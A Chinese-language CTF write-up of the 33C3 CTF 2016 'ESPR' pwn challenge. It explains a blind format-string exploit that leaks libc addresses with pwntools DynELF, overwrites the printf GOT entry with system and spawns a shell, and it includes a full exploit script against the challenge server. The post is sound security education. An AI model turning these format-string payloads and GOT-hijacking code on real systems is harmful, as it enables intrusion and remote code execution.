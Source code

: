 ```yaml
---
title: '[33C3 CTF 2016] ESPR 150 '
author: bruce30262
tags:
  - pwn
  - format string
  - 33C3 CTF 2016
  - DynELF
  - GOT hijacking
categories:
  - write-ups
date: 2016-12-31
layout: post
---
```

## Info  
> Category: pwn
> Point: 150
> Author: bruce30262 @ BambooFox

## Analyzing
這題沒有給任何的 binary，只有一張圖片，長得像這樣:
```
eat:                  sleep:
+-----------------+   +----------------+
| sub rsp, 0x100  |   | mov edi, 0x1   |
| mov rdi, rsp    |   | call _sleep    |
| call _gets      |   |                |
|                 |   |                |
+-----------------+   +----------------+
pwn:                  repeat:
+-----------------+   +----------------+
| mov rdi, rsp    |   |                |
| call _printf    |   | jmp eat        |
| add rsp, 0x100  |   |                |
|                 |   |                |
+-----------------+   +----------------+
```

hmmm......

可以發現到程式裡有兩個很明顯的漏洞: stack overflow 與 format string。這題 stack overflow 應該是打不了，因為有個無限迴圈在那邊，程式無法 return。因此這題的重點在於如何在沒有提供任何 binary 的情況下利用 format string 漏洞來 exploit 整個 service。 


## Exploit
在這裡不得不提 pwntools 裡頭一個相當強大的 module --- [DynELF](http://docs.pwntools.com/en/stable/dynelf.html)。透過 `DynELF` 以及程式當中的**任意讀漏洞**，pwntools 將有辦法幫助我們 leak 出遠端機器的 binary 資訊，包括 function 在 libc 中的位址，遠端 binary 的 `.dynamic` section 位址......等等。

要使用這個功能，首先我們必須提供一個 `leak` function，來讓 pwntools 有辦法透過這個 function leak 出任意位址的內容。這題的 `leak` function 可以透過程式當中的 format string 漏洞來實作:
```python leak
def leak(addr):
    payload = "%7$s.AAA"+p64(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    resp = r.recvuntil(".AAA")
    ret = resp[:-4:] + "\x00"
    print "ret:", repr(ret)
    r.recvrepeat(0.2) # receive the rest of the string
    return ret
```

之後我們還必須提供一個 binary 裡頭的位址。透過輸入 `%30$p`，我們可以 leak 出遠端 binary 的 text address `0x40060d`。之後我們就可以透過 `DynELF` 來幫助我們 resolve 一些 libc 中的 function address。

首先我們會需要遠端的 `printf` 和 `system` 的 function address:
```python leak library addresses
d = DynELF(leak, 0x40060d)
system_addr = d.lookup('system', 'libc')
printf_addr = d.lookup('printf', 'libc')
​
log.success("printf_addr: "+hex(printf_addr))
log.success("system_addr: "+hex(system_addr))
```
因為每 leak 一次就要 sleep 一秒的關係，因此這邊 resolve 的過程會花些時間 ( pwntools 會需要 leak 出一堆 address 來 resolve function 的位址 )

```
[+] printf_addr: 0x7fb040a17550
[+] system_addr: 0x7fb040a066d0
```

有了遠端的 `printf` 和 `system` 的 address，我們就可以計算兩者之間的 offset，然後在下一次的連線中透過以下步驟來進行 exploit:
1. 先 leak 出 `printf@got.plt`，然後計算 `system` 的位址
2. 透過 format string 來 overwrite `printf` 的 GOT ( hijack 成 `system` )
3. 輸入 "sh"，執行 `system("sh")` 拿 shell

那麼該怎麼獲得 `printf`  GOT 的位址呢 ? 這裡我是先透過 `DynELF` 的 `dynamic` 功能來獲取 `.dynamic` section 的位址:
```python resolve .dynamic section
d = DynELF(leak, 0x40060d)
dynamic_ptr = d.dynamic
```

有了 `.dynamic` section 的位址，我們就可以透過 leak `.dynamic` section 的資訊來獲取 `.got.plt` 的位址:
```
Dynamic section at offset 0xe28 contains 24 entries:
  Tag        Type                         Name/Value
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
 0x000000000000000c (INIT)               0x400400
 0x000000000000000d (FINI)               0x400614
 0x0000000000000019 (INIT_ARRAY)         0x600e10
 0x000000000000001b (INIT_ARRAYSZ)       8 (bytes)
 0x000000000000001a (FINI_ARRAY)         0x600e18
 0x000000000000001c (FINI_ARRAYSZ)       8 (bytes)
 0x000000006ffffef5 (GNU_HASH)           0x400298
 0x0000000000000005 (STRTAB)             0x400330
 0x0000000000000006 (SYMTAB)             0x4002b8
 0x000000000000000a (STRSZ)              68 (bytes)
 0x000000000000000b (SYMENT)             24 (bytes)
 0x0000000000000015 (DEBUG)              0x0
 0x0000000000000003 (PLTGOT)             0x601000  <--- here
```
```python resolve PLTGOT
cnt = 0
while True:
    addr = dynamic_ptr + 0x10*cnt
    ret = leak(addr)
    if ret == "\x03\x00": #TYPE PLTGOT
        addr += 8
        for i in xrange(8):
            ret = leak(addr+i)
            print "ret:", ret.encode('hex')
        break
    else:
        cnt += 1
```
最後，透過 leak 出所有的 GOT entry，我們可以藉由比對 function address 的低 12 bit 來判斷 `printf@got.plt` 的位址:
```python resolve printf@got.plt
got = 0x601000
for i in xrange(8):
    addr = got + i*8
    ret = leak(addr)
    print "ret:", ret.encode('hex')
```

這下該有的位址都有了，可以開始 exploit 了:

```python exp_espr.py
#!/usr/bin/env python
​
from pwn import *
import subprocess
import sys
import time
​
HOST = "78.46.224.86"
PORT = 1337
# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'
​
def leak(addr):
    payload = "%7$s.AAA"+p64(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    resp = r.recvuntil(".AAA")
    ret = resp[:-4:] + "\x00"
    print "ret:", repr(ret)
    r.recvrepeat(0.2)
    return ret
    
if __name__ == "__main__":
​
    r = remote(HOST, PORT)
​
    printf_got = 0x601018
    printf_addr = u64(leak(printf_got).ljust(8, "\x00"))
    system_addr = printf_addr - 0x10e80 # remote
​
    log.success("printf_addr: "+hex(printf_addr))
    log.success("system_addr: "+hex(system_addr))
​
    byte1 = system_addr & 0xff
    byte2 = (system_addr & 0xffff00) >> 8
    log.success("byte1: "+hex(byte1))
    log.success("byte2: "+hex(byte2))
​
    payload = "%" + str(byte1) + "c" + "%10$hhn."
    payload += "%" + str(byte2-byte1-1) + "c" + "%11$hn."
    payload = payload.ljust(32, "A")
    payload += p64(printf_got) + p64(printf_got+1)
    r.sendline(payload)
    r.sendline("sh\x00")
    r.interactive()
```
​
flag: `33C3_f1rst_tshirt_challenge?!`